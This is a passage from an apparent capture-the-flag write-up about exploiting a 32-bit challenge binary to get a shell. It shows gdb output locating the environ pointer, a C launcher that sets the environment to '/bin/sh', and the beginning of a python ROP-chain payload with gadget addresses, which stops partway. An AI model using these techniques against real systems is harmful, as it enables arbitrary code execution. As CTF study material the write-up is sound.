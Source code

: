 ## Finding /bin/sh
The `/bin/sh`string could be passed in the payload and then the value of `esp`
could be gathered to reference it, but no such gadget was available. One
possibility would be to push with the ROP chain two words `/bin` and `/sh\0`
into a fixed location such as the `.data`segment. Or to provide it through a
environment variable. I chose the latter possibility. A pointer to the
environment variable is available here:
{% highlight shell-session %}
gdb-peda$ x/wx &environ
0x80ef54c <environ>:	0xffbecf10
gdb-peda$ x/wx environ
0xffbecf10:	0xffbed0f5
gdb-peda$ x/s *environ
0xffbed0f5:	"XDG_VTNR=X"
{% endhighlight %}

`0x80ef54c` is the address containing a pointer (`0xffbecf10`) to the first
environment variable (`0xffbed0f5`).

To control the environment variables passed to a program, we need to create a
launcher that will clear them all and add our `/bin/sh`. As python is not
available, let's do it in C:
{% highlight C %}
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
  char *env[2];
  char *argv[3];
  clearenv();
  argv[0] = "/home/chall/pwn";
  argv[1] = "path/to/fifo";
  argv[2] = NULL;
  env[0] = "s=/bin/sh";
  env[1] = NULL;
  execve("/home/chall/pwn", argv, env);
  exit(0);
}
{% endhighlight %}

## ROP chain

Here is the python script that generate the payload which is then cast into the
fifo:
{% highlight python %}
#!/usr/bin/env python2

from pwn import p32

environ_addr = 0x80ef54c

payload = 'A' * 4124

# set ebx = addr /bin/sh in first env var
# ecx is also set
payload += p32(0x08072731) # pop ecx ; pop ebx ; ret
payload += p32(0xffffffff)
payload += p32(0xffffffff)
payload += p32(0x080de209) # : inc ebx ; ret
payload += p32(0x080ddf6c) # : inc ecx ; ret
payload += p32(0x0807270a) # : pop edx ; ret

[ndh]: https://quals.nuitduhack.com/
[stat]: http://man7.org/linux/man-pages/man2/stat.2.html
[ropgadget]: https://github.com/JonathanSalwan/ROPgadget
[mprotect]: http://man7.org/linux/man-pages/man2/mprotect.2.html
[syscall]: http://man7.org/linux/man-pages/man2/syscall.2.html
[execve]: http://man7.org/linux/man-pages/man2/execve.2.html